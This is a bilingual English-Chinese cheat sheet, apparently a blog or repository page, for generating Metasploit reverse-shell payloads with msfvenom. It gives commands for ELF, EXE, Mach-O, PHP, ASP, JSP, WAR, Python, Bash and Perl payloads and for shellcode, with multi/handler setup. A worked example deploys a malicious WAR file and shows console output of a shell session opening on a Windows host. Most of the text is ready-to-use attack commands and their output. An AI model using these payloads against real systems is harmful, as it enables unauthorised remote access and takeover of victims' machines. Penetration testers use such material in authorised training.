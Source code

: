 ﻿# Creating Metasploit Payloads 创建Metasploit有效负载

------

Often one of the most useful (and to the beginner underrated) abilities of Metasploit is the msfpayload module. Multiple payloads can be created with this module and it helps something that can give you a shell in almost any situation. For each of these payloads you can go into msfconsole and select exploit/multi/handler. Run ‘set payload’ for the relevant payload used and configure all necessary options (LHOST, LPORT, etc). Execute and wait for the payload to be run. For the examples below it’s pretty self explanatory but LHOST should be filled in with your IP address (LAN IP if attacking within the network, WAN IP if attacking across the internet), and LPORT should be the port you wish to be connected back on.

通常，Metasploit最有用（以及初学者被低估）的能力之一是msfpayload模块。使用此模块可以创建多个有效负载，它可以帮助您在几乎任何情况下都能获得shell。对于每个有效负载，您可以进入msfconsole并选择exploit / multi / handler。为所使用的相关有效负载运行'set payload'并配置所有必需的选项（LHOST，LPORT等）。执行并等待有效负载运行。对于下面的示例，它是非常自我解释但LHOST应填入您的IP地址（如果在网络内攻击，则为LAN IP，如果通过互联网进行攻击则为WAN IP），LPORT应该是您希望重新连接的端口。

------

## List payloads 列出有效负载

```txt
msfvenom -l
```

---

## Binaries 二进制

### Linux

```txt
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

### Windows

```txt
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```

### Mac

```txt
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```

---

## Web Payloads 网络有效负载

### PHP

```txt
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

### ASP

```txt
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```

### JSP

```txt
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```

### WAR

```txt
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```

---

## Scripting Payloads 脚本有效负载

### Python

```txt
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```

### Bash

```txt
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```

### Perl

```txt
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```

---

## Shellcode

For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

对于所有shellcode，请参阅'msfvenom -help-formats'以获取有效信息 参数。Msfvenom将输出能够以此语言剪切和粘贴的代码以供您利用。

### Linux Based Shellcode 基于Linux的Shellcode

```txt
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

### Windows Based Shellcode 基于Windows的Shellcode

```txt
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

### Mac Based Shellcode 基于Mac的Shellcode

```txt
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

---

## Handlers 处理程序

Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

Metasploit处理程序可以很好地快速设置Metasploit以便接收您的传入shell。处理程序应采用以下格式。

```txt
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z
```

Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘

完成所需的值后，以下命令将执行您的处理程序 - 'msfconsole -L -r “

---

## 示例说明

生成包含反向TCP shell的恶意WAR文件。相应地配置本地IP和端口。

```txt
msfvenom -p java/shell_reverse_tcp LHOST=172.16.245.143 LPORT=4444 -f war > shell3.war
```

在Metasploit中设置处理程序然后访问manger接口以部署恶意WAR。上传后，请务必至少访问一次恶意URL（在应用程序列表中可用）以使WAR执行。你应该在Metasploit处理程序中收到一个shell。

```txt
use exploit/multi/handler
set PAYLOAD java/shell_reverse_tcp
set LHOST 172.16.245.143
set LPORT 4444
set ExitOnSession false
exploit -j -z
```

```txt
[i] Database already started
[i] The database appears to be already configured, skipping initialization
                                                  
  +-------------------------------------------------------+
  |  METASPLOIT by Rapid7                                 |
  +---------------------------+---------------------------+
  |      __________________   |                           |
  |  ==c(______(o(______(_()  | |""""""""""""|======[***  |
  |             )=\           | |  EXPLOIT   \            |
  |            // \\          | |_____________\_______    |
  |           //   \\         | |==[msf >]============\   |
  |          //     \\        | |______________________\  |
  |         // RECON \\       | \(@)(@)(@)(@)(@)(@)(@)/   |
  |        //         \\      |  *********************    |
  +---------------------------+---------------------------+
  |      o O o                |        \'\/\/\/'/         |
  |              o O          |         )======(          |
  |                 o         |       .'  LOOT  '.        |
  | |^^^^^^^^^^^^^^|l___      |      /    _||__   \       |
  | |    PAYLOAD     |""\___, |     /    (_||_     \      |
  | |________________|__|)__| |    |     __||_)     |     |
  | |(@)(@)"""**|(@)(@)**|(@) |    "       ||       "     |
  |  = = = = = = = = = = = =  |     '--------------'      |
  +---------------------------+---------------------------+


       =[ metasploit v4.17.3-dev                          ]
+ -- --=[ 1795 exploits - 1019 auxiliary - 310 post       ]
+ -- --=[ 538 payloads - 41 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > use exploit/multi/handler
msf exploit(multi/handler) > set PAYLOAD java/shell_reverse_tcp
PAYLOAD => java/shell_reverse_tcp
msf exploit(multi/handler) > set LHOST 172.16.245.143
LHOST => 172.16.245.143
msf exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf exploit(multi/handler) > set ExitOnSession false
ExitOnSession => false
msf exploit(multi/handler) > exploit -j -z
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 172.16.245.143:4444 
msf exploit(multi/handler) > [*] Command shell session 1 opened (172.16.245.143:4444 -> 172.16.245.1:53088) at 2018-10-18 02:37:15 +0800
msf exploit(multi/handler) > sessions -l

Active sessions
===============

  Id  Name  Type             Information                                                                       Connection
  --  ----  ----             -----------                                                                       ----------
  1         shell java/java  Microsoft Windows [_ 6.1.7601] _ (c) 2009 Microsoft Corporation_ C:\Program F...  172.16.245.143:4444 -> 172.16.245.1:53088 (172.16.245.1)
```

![Snipaste_2018-10-18_02-40-23.png](https://whitecell.io/upload/attach/201810/151_96N9ENZ9F99TJP5.png "Snipaste_2018-10-18_02-40-23.png")

![Snipaste_2018-10-18_02-42-05.png](https://whitecell.io/upload/attach/201810/151_G5C94KHFNR42UWN.png "Snipaste_2018-10-18_02-42-05.png")

------

作者 [@Mannix][1]     
2018 年 10月 18日

参考文档 [@Creating Metasploit Payloads][2]     

[1]: http://mannix.top/
[2]: https://netsec.ws/?p=331






